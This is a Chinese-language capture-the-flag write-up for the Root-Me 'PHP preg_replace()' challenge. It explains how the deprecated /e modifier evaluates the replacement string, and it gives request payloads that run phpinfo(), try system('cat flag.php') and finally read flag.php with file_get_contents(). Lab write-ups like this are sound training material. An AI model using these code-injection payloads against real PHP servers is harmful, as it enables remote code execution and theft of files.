

Root-Me [PHP preg_replace()](https://www.root-me.org/en/Challenges/Web-Server/PHP-preg_replace)
===

三個 Input 分別為 `search`、`replace`、`content`。

## 解題關鍵
1. PHP Code Review

## 提示訊息
```
Read flag.php.
```

## 解題方法
首先了解一下 `preg_replace` 函數，基礎用法如下：

```PHP
preg_replace($pattern, $replacement, $string);
```

基本上應該適用這三個輸入，去構造一個有效的 Payload 去讀取 `flag.php` 這個檔案，所以先嘗試性的填上值，並送出看看吧。

```
content=MksYitest&replace=Mks&search=/MksYi/
```

當我送出以上的 `Payload` 後，會得到 `Mkstest`，意思就是說 `MksYi` 被取代成 `Mks`。  

至於要如何實踐攻擊，原理在於 `php` 的正則表達式有幾種模式（參考來源: [Pattern Modifiers](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php)），其中 `e` 模式功能可以轉換字串之前，先使用 `eval` 執行 `replace` 上的字串或變數，但在 `PHP 5.5.0` 被棄用、`7.0` 以上直接移除。  

檢然該題目就是要用這種解法，瞎猜版本低於 `PHP 5.5.0`，所以直接嘗試使用 `phpinfo();` 來試驗。  

```
content=MksYitest&replace=phpinfo();&search=/MksYi/e
```

然後就成功得到 `eval(phpinfo();)test` 的頁面，接著就是讀取關鍵的 `flag.php`，透過 `system`、`shell_exec()` 執行系統指令 。  

```
content=MksYitest&replace=system("cat flag.php");&search=/MksYi/e
```

但卻跳出以下訊息，表示 `system()`、`shell_exec()` 功能沒有開啟...。  

```
Warning: system() has been disabled for security reasons in /challenge/web-serveur/ch37/index.php(25) : regexp code on line 1 test
Warning: shell_exec() has been disabled for security reasons in /challenge/web-serveur/ch37/index.php(25) : regexp code on line 1 test
```

懊惱之下發現，有更方便的函數可以使用 `file_get_contents()`，最終 Payload 如下，解決該題。  

```
content=MksYitest&replace=file_get_contents("flag.php");&search=/MksYi/e
```

  

## Reference
https://www.php.net/manual/en/function.preg-replace.php
https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php
https://blog.longwin.com.tw/2013/06/php-system-exec-shell_exec-diff-2013/
https://www.php.net/manual/en/function.file-get-contents.php

## 授權聲明
[](https://mks.tw/)
[](https://www.gnu.org/licenses/gpl-3.0)